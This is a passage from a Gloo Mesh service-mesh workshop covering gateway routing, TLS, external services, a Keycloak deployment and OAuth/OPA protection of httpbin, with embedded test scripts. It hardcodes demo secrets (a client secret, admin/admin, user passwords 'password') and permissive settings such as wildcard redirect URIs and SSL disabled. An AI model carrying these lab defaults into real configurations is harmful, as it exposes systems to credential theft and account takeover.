- all the resources (RouteTables, VirtualDestination, ...) that have the label `expose` set to `true`

This is how the environment looks like with the workspaces:


## Lab 9 - Expose the productpage through a gateway <a name="lab-9---expose-the-productpage-through-a-gateway-"></a>
[](https://youtu.be/emyIu99AOOA "Video Link")

In this step, we're going to expose the `productpage` service through the Ingress Gateway using Gloo Mesh.

The Gateway team must create a `VirtualGateway` to configure the Istio Ingress Gateway in cluster1 to listen to incoming requests.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: istio-gateways
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
        cluster: cluster1
  listeners: 
    - http: {}
      port:
        number: 80
      allowedRouteTables:
        - host: '*'
EOF
```

Then, the Gateway team should create a parent `RouteTable` to configure the main routing.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main-bookinfo
  namespace: istio-gateways
spec:
  hosts:
    - cluster1-bookinfo.example.com
    - cluster2-bookinfo.example.com
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
            workspace: bookinfo
          - labels:
              expose: "true"
            workspace: gateways
        sortMethod: ROUTE_SPECIFICITY
---
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main-httpbin
  namespace: istio-gateways
spec:
  hosts:
    - cluster1-httpbin.example.com
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
            workspace: httpbin
        sortMethod: ROUTE_SPECIFICITY
EOF
```

In this example, you can see that the Gateway team is delegating the routing details to the `bookinfo` and `httpbin` workspaces. The teams in charge of these workspaces can expose their services through the gateway.

The Gateway team can use this main `RouteTable` to enforce a global WAF policy, but also to have control on which hostnames and paths can be used by each application team.

Then, the Bookinfo team can create a `RouteTable` to determine how they want to handle the traffic.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: productpage
  namespace: bookinfo-frontends
  labels:
    expose: "true"
spec:
  http:
    - name: productpage
      matchers:
      - uri:
          exact: /productpage
      - uri:
          prefix: /static
      - uri:
          prefix: /api/v1/products
      forwardTo:
        destinations:
          - ref:
              name: productpage
              namespace: bookinfo-frontends
              cluster: cluster1
            port:
              number: 9080
EOF
```
Let's add the domains to our `/etc/hosts` file:

```bash
./scripts/register-domain.sh cluster1-bookinfo.example.com ${HOST_GW_CLUSTER1}
./scripts/register-domain.sh cluster1-httpbin.example.com ${HOST_GW_CLUSTER1}
./scripts/register-domain.sh cluster2-bookinfo.example.com ${HOST_GW_CLUSTER2}
```

You can access the `productpage` service
using this URL: [http://cluster1-bookinfo.example.com/productpage](http://cluster1-bookinfo.example.com/productpage).

You should now be able to access the `productpage` application through the browser.
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Productpage is available (HTTP)", () => {
  it('/productpage is available in cluster1', () => helpers.checkURL({ host: `http://cluster1-bookinfo.example.com`, path: '/productpage', retCode: 200 }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/bookinfo/gateway-expose/tests/productpage-available.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

Gloo Mesh translates the `VirtualGateway` and `RouteTable` into the corresponding Istio objects (`Gateway` and `VirtualService`).

Now, let's secure the access through TLS.
Let's first create a private key and a self-signed certificate:

```bash
openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
   -keyout tls.key -out tls.crt -subj "/CN=*"
```

Then, you have to store them in a Kubernetes secret running the following commands:

```bash
kubectl --context ${CLUSTER1} -n istio-gateways create secret generic tls-secret \
  --from-file=tls.key=tls.key \
  --from-file=tls.crt=tls.crt

kubectl --context ${CLUSTER2} -n istio-gateways create secret generic tls-secret \
  --from-file=tls.key=tls.key \
  --from-file=tls.crt=tls.crt
```

Finally, the Gateway team needs to update the `VirtualGateway` to use this secret:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: istio-gateways
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
        cluster: cluster1
  listeners: 
    - http: {}
      port:
        number: 80
# ---------------- Redirect to https --------------------
      httpsRedirect: true
# -------------------------------------------------------
    - http: {}
# ---------------- SSL config ---------------------------
      port:
        number: 443
      tls:
        parameters:
          minimumProtocolVersion: TLSv1_3
        mode: SIMPLE
        secretName: tls-secret
# -------------------------------------------------------
      allowedRouteTables:
        - host: '*'
EOF
```

You can now access the `productpage` application securely through the browser.
You can access the `productpage` service using this URL: <https://cluster1-bookinfo.example.com/productpage>.

Notice that we specificed a minimumProtocolVersion, so if the client is trying to use an deprecated TLS version the request will be denied.

To test this, we can try to send a request with `tlsv1.2`:

```console
curl --tlsv1.2 --tls-max 1.2 --key tls.key --cert tls.crt https://cluster1-bookinfo.example.com/productpage -k
```

You should get the following output:

```nocopy
curl: (35) error:1409442E:SSL routines:ssl3_read_bytes:tlsv1 alert protocol version
```

Now, you can try the most recent `tlsv1.3`:

```console
curl --tlsv1.3 --tls-max 1.3 --key tls.key --cert tls.crt https://cluster1-bookinfo.example.com/productpage -k
```

And after this you should get the actual Productpage.
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Productpage is available (HTTPS)", () => {
  it('/productpage is available in cluster1', () => helpers.checkURL({ host: `https://cluster1-bookinfo.example.com`, path: '/productpage', retCode: 200 }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/bookinfo/gateway-expose/tests/productpage-available-secure.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');

describe("Otel metrics", () => {
  it("cluster1 is sending metrics to telemetryGateway", () => {
    podName = helpers.getOutputForCommand({ command: "kubectl -n gloo-mesh get pods -l app.kubernetes.io/name=prometheus -o jsonpath='{.items[0].metadata.name}' --context " + process.env.MGMT }).replaceAll("'", "");
    command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.MGMT + " -n gloo-mesh debug -q -i " + podName + " --image=curlimages/curl -- curl -s http://localhost:9090/api/v1/query?query=istio_requests_total" }).replaceAll("'", "");
    expect(command).to.contain("cluster\":\"cluster1");
  });
});


EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/bookinfo/gateway-expose/tests/otel-metrics.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=150 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

This diagram shows the flow of the request (through the Istio Ingress Gateway):


## Lab 10 - Create the httpbin workspace <a name="lab-10---create-the-httpbin-workspace-"></a>

We're going to create a workspace for the team in charge of the httpbin application.

The platform team needs to create the corresponding `Workspace` Kubernetes objects in the Gloo Mesh management cluster.

Let's create the `httpbin` workspace which corresponds to the `httpbin` namespace on `cluster1`:

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: httpbin
  namespace: gloo-mesh
  labels:
    allow_ingress: "true"
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: httpbin
EOF
```

Then, the Httpbin team creates a `WorkspaceSettings` Kubernetes object in one of the namespaces of the `httpbin` workspace:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: httpbin
  namespace: httpbin
spec:
  importFrom:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
  exportTo:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
      labels:
        app: not-in-mesh
    - kind: ALL
      labels:
        expose: "true"
EOF
```

The Httpbin team has decided to export the following to the `gateway` workspace (using a reference):
- the `not-in-mesh` Kubernetes service
- all the resources (RouteTables, VirtualDestination, ...) that have the label `expose` set to `true`


## Lab 11 - Expose an external service <a name="lab-11---expose-an-external-service-"></a>
[](https://youtu.be/jEqDoITpRss "Video Link")

In this step, we're going to expose an external service through a Gateway using Gloo Mesh and show how we can then migrate this service to the Mesh.

Let's create an `ExternalService` corresponding to `httpbin.org`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: ExternalService
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  hosts:
  - httpbin.org
  ports:
  - name: http
    number: 80
    protocol: HTTP
  - name: https
    number: 443
    protocol: HTTPS
    clientsideTls: {}
EOF
```

Now, you can create a `RouteTable` to expose `httpbin.org` through the gateway:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - kind: EXTERNAL_SERVICE
          port:
            number: 443
          ref:
            name: httpbin
            namespace: httpbin
EOF
```

You should now be able to access `httpbin.org` external service through the gateway.

Make sure the domain is in our `/etc/hosts` file:

```bash
./scripts/register-domain.sh cluster1-httpbin.example.com ${HOST_GW_CLUSTER1}
```

You can access the `httpbin` service from the second cluster using this URL: [https://cluster1-httpbin.example.com/get](https://cluster1-httpbin.example.com/get).
<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin from the external service", () => {
  it('Checking text \'X-Amzn-Trace-Id\' in ' + process.env.CLUSTER1, () => helpersHttp.checkBody({ host: `https://cluster1-httpbin.example.com`, path: '/get', body: 'X-Amzn-Trace-Id', match: true }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/httpbin/gateway-external-service/tests/httpbin-from-external.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

Let's update the `RouteTable` to direct 50% of the traffic to the local `httpbin` service:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - kind: EXTERNAL_SERVICE
          port:
            number: 443
          ref:
            name: httpbin
            namespace: httpbin
          weight: 50
        - ref:
            name: not-in-mesh
            namespace: httpbin
            cluster: cluster1
          port:
            number: 8000
          weight: 50
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin from the local service", () => {
  it('Got the expected status code 200', () => helpersHttp.checkURL({ host: `https://cluster1-httpbin.example.com/get`, retCode: 200 }));
  it('Checking text \'X-Amzn-Trace-Id\' not in ' + process.env.CLUSTER1, () => helpersHttp.checkBody({ host: `https://cluster1-httpbin.example.com`, path: '/get', body: 'X-Amzn-Trace-Id', match: false }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/httpbin/gateway-external-service/tests/httpbin-from-local.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin from the external service", () => {
  it('Checking text \'X-Amzn-Trace-Id\' in ' + process.env.CLUSTER1, () => helpersHttp.checkBody({ host: `https://cluster1-httpbin.example.com`, path: '/get', body: 'X-Amzn-Trace-Id', match: true }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/httpbin/gateway-external-service/tests/httpbin-from-external.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

If you refresh your browser, you should see that you get a response either from the local service or from the external service.

When the response comes from the external service (httpbin.org), there's a `X-Amzn-Trace-Id` header.

And when the response comes from the local service, there's a `X-B3-Parentspanid` header.

Finally, you can update the `RouteTable` to direct all the traffic to the local `httpbin` service:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - ref:
            name: not-in-mesh
            namespace: httpbin
            cluster: cluster1
          port:
            number: 8000
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin from the local service", () => {
  it('Got the expected status code 200', () => helpersHttp.checkURL({ host: `https://cluster1-httpbin.example.com/get`, retCode: 200 }));
  it('Checking text \'X-Amzn-Trace-Id\' not in ' + process.env.CLUSTER1, () => helpersHttp.checkBody({ host: `https://cluster1-httpbin.example.com`, path: '/get', body: 'X-Amzn-Trace-Id', match: false }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/httpbin/gateway-external-service/tests/httpbin-from-local.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

If you refresh your browser, you should see that you get responses only from the local service.

This diagram shows the flow of the requests :


Let's delete the `ExternalService` we've created:

```bash
kubectl --context ${CLUSTER1} -n httpbin delete externalservices.networking.gloo.solo.io httpbin
```


## Lab 12 - Deploy Keycloak <a name="lab-12---deploy-keycloak-"></a>

In many use cases, you need to restrict the access to your applications to authenticated users.

OpenID Connect (OIDC) is an identity layer on top of the OAuth 2.0 protocol. In OAuth 2.0 flows, authentication is performed by an external Identity Provider (IdP) which, in case of success, returns an Access Token representing the user identity. The protocol does not define the contents and structure of the Access Token, which greatly reduces the portability of OAuth 2.0 implementations.

The goal of OIDC is to address this ambiguity by additionally requiring Identity Providers to return a well-defined ID Token. OIDC ID tokens follow the JSON Web Token standard and contain specific fields that your applications can expect and handle. This standardization allows you to switch between Identity Providers – or support multiple ones at the same time – with minimal, if any, changes to your downstream services; it also allows you to consistently apply additional security measures like Role-Based Access Control (RBAC) based on the identity of your users, i.e. the contents of their ID token.

In this lab, we're going to install Keycloak. It will allow us to setup OIDC workflows later.

First, we need to define an ID and secret for a "client", which will be the service that delegates to Keycloak for authorization:

```bash
KEYCLOAK_CLIENT=gloo-ext-auth
KEYCLOAK_SECRET=hKcDcqmUKCrPkyDJtCw066hTLzUbAiri
```

We need to store these in a secret on each cluster that we'll be calling Keycloak from:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF

---
apiVersion: v1
kind: Secret
metadata:
  name: oauth
  namespace: gloo-mesh-addons
type: extauth.solo.io/oauth
stringData:
  client-id: ${KEYCLOAK_CLIENT}
  client-secret: ${KEYCLOAK_SECRET}
EOF

kubectl apply --context ${CLUSTER2} -f - <<EOF

---
apiVersion: v1
kind: Secret
metadata:
  name: oauth
  namespace: gloo-mesh-addons
type: extauth.solo.io/oauth
stringData:
  client-id: ${KEYCLOAK_CLIENT}
  client-secret: ${KEYCLOAK_SECRET}
EOF
```

We need to supply the initial configuration of the realm we'll use for these labs. This will include two users that we can use later:

- User1 credentials: `user1/password`
  Email: user1@example.com

- User2 credentials: `user2/password`
  Email: user2@solo.io

Create this configuration in a `ConfigMap`:

```bash
kubectl --context ${MGMT} create namespace keycloak

kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: v1
kind: ConfigMap
metadata:
  name: realms
  namespace: keycloak
data:
  workshop-realm.json: |-
    {
      "realm": "workshop",
      "enabled": true,
      "displayName": "solo.io",
      "accessTokenLifespan": 1800,
      "sslRequired": "none",
      "users": [
        {
          "username": "user1",
          "enabled": true,
          "email": "user1@example.com",
          "attributes": {
            "group": [
              "users"
            ]
          },
          "credentials": [
            {
              "type": "password",
              "secretData": "{\"value\":\"JsfNbCOIdZUbyBJ+BT+VoGI91Ec2rWLOvkLPDaX8e9k=\",\"salt\":\"P5rtFkGtPfoaryJ6PizUJw==\",\"additionalParameters\":{}}",
              "credentialData": "{\"hashIterations\":27500,\"algorithm\":\"pbkdf2-sha256\",\"additionalParameters\":{}}"
            }
          ]
        },
        {
          "username": "user2",
          "enabled": true,
          "email": "user2@solo.io",
          "attributes": {
            "group": [
              "users"
            ],
            "show_personal_data": [
              "false"
            ]
          },
          "credentials": [
            {
              "type": "password",
              "secretData": "{\"value\":\"RITBVPdh5pvXOa4JzJ5pZTE0rG96zhnQNmSsKCf83aU=\",\"salt\":\"drB9e5Smf3cbfUfF3FUerw==\",\"additionalParameters\":{}}",
              "credentialData": "{\"hashIterations\":27500,\"algorithm\":\"pbkdf2-sha256\",\"additionalParameters\":{}}"
            }
          ]
        }
      ],
      "clients": [
        {
          "clientId": "${KEYCLOAK_CLIENT}",
          "secret": "${KEYCLOAK_SECRET}",
          "redirectUris": [
            "*"
          ],
          "webOrigins": [
            "+"
          ],
          "authorizationServicesEnabled": true,
          "directAccessGrantsEnabled": true,
          "serviceAccountsEnabled": true,
          "protocolMappers": [
            {
              "name": "group",
              "protocol": "openid-connect",
              "protocolMapper": "oidc-usermodel-attribute-mapper",
              "config": {
                "claim.name": "group",
                "user.attribute": "group",
                "access.token.claim": "true",
                "id.token.claim": "true"
              }
            },
            {
              "name": "show_personal_data",
              "protocol": "openid-connect",
              "protocolMapper": "oidc-usermodel-attribute-mapper",
              "config": {
                "claim.name": "show_personal_data",
                "user.attribute": "show_personal_data",
                "access.token.claim": "true",
                "id.token.claim": "true"
              }
            },
            {
              "name": "name",
              "protocol": "openid-connect",
              "protocolMapper": "oidc-usermodel-property-mapper",
              "config": {
                "claim.name": "name",
                "user.attribute": "username",
                "access.token.claim": "true",
                "id.token.claim": "true"
              }
            }
          ]
        }
      ],
      "components": {
        "org.keycloak.userprofile.UserProfileProvider": [
          {
            "providerId": "declarative-user-profile",
            "config": {
              "kc.user.profile.config": [
                "{\"attributes\":[{\"name\":\"username\"},{\"name\":\"email\"}],\"unmanagedAttributePolicy\":\"ENABLED\"}"
              ]
            }
          }
        ]
      }
    }
EOF
```

Now let's install Keycloak:

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: v1
kind: Service
metadata:
  name: keycloak
  namespace: keycloak
  labels:
    app: keycloak
spec:
  ports:
  - name: http
    port: 8080
    targetPort: 8080
  selector:
    app: keycloak
  type: LoadBalancer
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: keycloak
  namespace: keycloak
  labels:
    app: keycloak
spec:
  replicas: 1
  selector:
    matchLabels:
      app: keycloak
  template:
    metadata:
      labels:
        app: keycloak
    spec:
      containers:
      - name: keycloak
        image: quay.io/keycloak/keycloak:25.0.5
        args: ["start-dev", "--import-realm"]
        env:
        - name: KEYCLOAK_ADMIN
          value: admin
        - name: KEYCLOAK_ADMIN_PASSWORD
          value: admin
        ports:
        - name: http
          containerPort: 8080
        readinessProbe:
          httpGet:
            path: /realms/workshop
            port: 8080
        volumeMounts:
        - name: realms
          mountPath: /opt/keycloak/data/import
      volumes:
      - name: realms
        configMap:
          name: realms
EOF
```

Wait while Keycloak finishes rolling out:

```bash
kubectl --context ${MGMT} -n keycloak rollout status deploy/keycloak
```
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Keycloak", () => {
  it('keycloak pods are ready in cluster1', () => helpers.checkDeployment({ context: process.env.MGMT, namespace: "keycloak", k8sObj: "keycloak" }));
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/deploy-keycloak/tests/pods-available.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

describe("Retrieve enterprise-networking ip", () => {
  it("A value for load-balancing has been assigned", () => {
    let cli = chaiExec("kubectl --context " + process.env.MGMT + " -n keycloak get svc keycloak -o jsonpath='{.status.loadBalancer}'");
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.contain('"ingress"');
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/deploy-keycloak/tests/keycloak-ip-is-attached.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->
<!--bash
timeout 2m bash -c "until [[ \$(kubectl --context ${MGMT} -n keycloak get svc keycloak -o json | jq '.status.loadBalancer | length') -gt 0 ]]; do
  sleep 1
done"
-->

Let's set the environment variables we need:

```bash
export ENDPOINT_KEYCLOAK=$(kubectl --context ${MGMT} -n keycloak get service keycloak -o jsonpath='{.status.loadBalancer.ingress[0].*}'):8080
export HOST_KEYCLOAK=$(echo ${ENDPOINT_KEYCLOAK%:*})
export PORT_KEYCLOAK=$(echo ${ENDPOINT_KEYCLOAK##*:})
export KEYCLOAK_URL=http://${ENDPOINT_KEYCLOAK}
```

<!--bash
cat <<'EOF' > ./test.js
const dns = require('dns');
const chaiHttp = require("chai-http");
const chai = require("chai");
const expect = chai.expect;
chai.use(chaiHttp);
const { waitOnFailedTest } = require('./tests/utils');

afterEach(function(done) { waitOnFailedTest(done, this.currentTest.currentRetry())});

describe("Address '" + process.env.HOST_KEYCLOAK + "' can be resolved in DNS", () => {
    it(process.env.HOST_KEYCLOAK + ' can be resolved', (done) => {
        return dns.lookup(process.env.HOST_KEYCLOAK, (err, address, family) => {
            expect(address).to.be.an.ip;
            done();
        });
    });
});
EOF
echo "executing test ./gloo-mesh-2-0/tests/can-resolve.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->
<!--bash
echo "Waiting for Keycloak to be ready at $KEYCLOAK_URL/realms/workshop/protocol/openid-connect/token"
timeout 300 bash -c 'while [[ "$(curl -m 2 -s -o /dev/null -w ''%{http_code}'' $KEYCLOAK_URL/realms/workshop/protocol/openid-connect/token)" != "405" ]]; do printf '.';sleep 1; done' || false
-->


## Lab 13 - Securing the access with OAuth <a name="lab-13---securing-the-access-with-oauth-"></a>
[](https://youtu.be/fKZjr0AYxYs "Video Link")

In this step, we're going to secure the access to the `httpbin` service using OAuth.

You need to create an `ExtAuthPolicy`, which is a CRD that contains authentication information. We've already got a secret named `oidc` that we can reference in this policy:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: ExtAuthPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    server:
      name: ext-auth-server
      namespace: gloo-mesh-addons
      cluster: cluster1
    glooAuth:
      configs:
      - oauth2:
          oidcAuthorizationCode:
            appUrl: "https://cluster1-httpbin.example.com"
            callbackPath: /callback
            clientId: ${KEYCLOAK_CLIENT}
            clientSecretRef:
              name: oauth
              namespace: gloo-mesh-addons
            issuerUrl: "${KEYCLOAK_URL}/realms/workshop/"
            logoutPath: /logout
            afterLogoutUrl: "https://cluster1-httpbin.example.com/get"
            session:
              failOnFetchFailure: true
              redis:
                cookieName: keycloak-session
                options:
                  host: redis:6379
            scopes:
            - email
            headers:
              idTokenHeader: jwt
            identityToken:
              claimsToHeaders:
                - claim: email
                  header: X-Email
EOF
```

Finally, you need to update the `RouteTable` to use this `ExtAuthPolicy`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      labels:
        oauth: "true"
      matchers:
      - uri:
          exact: /get
      - uri:
          exact: /logout
      - uri:
          prefix: /callback
      forwardTo:
        destinations:
        - ref:
            name: not-in-mesh
            namespace: httpbin
            cluster: cluster1
          port:
            number: 8000
EOF
```
<!--bash
ATTEMPTS=1
timeout 60 bash -c 'while [[ "$(curl -m 2 --max-time 2 --insecure -s -o /dev/null -w ''%{http_code}'' https://cluster1-httpbin.example.com/get)" != "302" ]]; do sleep 5; done'
export USER1_COOKIE=$(node tests/keycloak-token.js "https://cluster1-httpbin.example.com/get" user1)
export USER2_COOKIE=$(node tests/keycloak-token.js "https://cluster1-httpbin.example.com/get" user2)
ATTEMPTS=1
until ([ ! -z "$USER2_COOKIE" ] && [[ $USER2_COOKIE != *"dummy"* ]]) || [ $ATTEMPTS -gt 20 ]; do
  printf "."
  ATTEMPTS=$((ATTEMPTS + 1))
  sleep 3
  export USER2_COOKIE=$(node tests/keycloak-token.js "https://cluster1-httpbin.example.com/get" user2)
done
ATTEMPTS=1
until ([ ! -z "$USER1_COOKIE" ] && [[ $USER1_COOKIE != *"dummy"* ]]) || [ $ATTEMPTS -gt 20 ]; do
  printf "."
  ATTEMPTS=$((ATTEMPTS + 1))
  sleep 3
  export USER1_COOKIE=$(node tests/keycloak-token.js "https://cluster1-httpbin.example.com/get" user1)
done
echo "User1 token: $USER1_COOKIE"
echo "User2 token: $USER2_COOKIE"
-->

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Authentication is working properly", function () {
  const cookieString = process.env.USER1_COOKIE;

  it("The httpbin page isn't accessible without authenticating", () => helpersHttp.checkURL({ host: `https://cluster1-httpbin.example.com`, path: '/get', retCode: 302 }));

  it("The httpbin page is accessible after authenticating", () => helpersHttp.checkURL({ host: `https://cluster1-httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString }], retCode: 200 }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/httpbin/gateway-extauth-oauth/tests/authentication.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Claim to header is working properly", function() {
  const cookieString = process.env.USER2_COOKIE;
  it('The new header has been added', () => helpersHttp.checkBody({ host: `https://cluster1-httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString }], body: '"X-Email": "user2@solo.io"' }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/httpbin/gateway-extauth-oauth/tests/header-added.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

If you refresh the web browser, you will be redirected to the authentication page.

If you use the username `user1` and the password `password` you should be redirected back to the `httpbin` application.

Notice that we are also extracting information from the `email` claim, and putting it into a new header. This can be used for different things during our authz/authn flow, but most importantly we don't need any jwt-decoding library in the application anymore!

You can also perform authorization using OPA.

First, you need to create a `ConfigMap` with the policy written in rego:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ConfigMap
metadata:
  name: allow-solo-email-users
  namespace: httpbin
data:
  policy.rego: |-
    package test

    default allow = false

    allow {
        [header, payload, signature] = io.jwt.decode(input.state.jwt)
        endswith(payload["email"], "@solo.io")
    }
EOF
```

Then, you need to update the `ExtAuthPolicy` object to add the authorization step:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: ExtAuthPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    server:
      name: ext-auth-server
      namespace: gloo-mesh-addons
      cluster: cluster1
    glooAuth:
      configs:
      - oauth2:
          oidcAuthorizationCode:
            appUrl: "https://cluster1-httpbin.example.com"
            callbackPath: /callback
            clientId: ${KEYCLOAK_CLIENT}
            clientSecretRef:
              name: oauth
